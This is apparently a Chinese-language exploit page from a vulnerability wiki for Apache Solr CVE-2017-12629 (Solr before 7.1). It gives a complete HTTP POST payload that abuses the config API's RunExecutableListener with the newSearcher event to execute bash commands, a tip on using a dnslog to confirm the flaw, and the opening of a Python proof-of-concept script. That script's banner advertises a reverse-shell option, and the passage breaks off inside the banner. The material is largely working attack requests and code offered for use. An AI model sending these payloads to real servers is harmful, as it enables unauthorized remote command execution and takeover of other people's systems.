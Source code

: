 #### 使用 newSearcher

使用 newSearcher可以直接加载入缓存执行命令

请求包如下

```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

> [!NOTE]
>
> 注意点同上，也需要每次执行更改 "name":"newlistener-2" 的参数

![](http://wikioss.peiqi.tech/vuln/solr-11.png)

成功执行了创建文件的命令

![](http://wikioss.peiqi.tech/vuln/solr-13.png)

#### 关于

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测



### 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json
import random

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Solr < 7.1                                        \033[0m')
    print('+  \033[36m使用格式: python3 cve-2017-12629.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983                            \033[0m')
    print('+  \033[36mcmd    >>> dnslog地址(漏洞外连检测)                                  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)                                        \033[0m')
```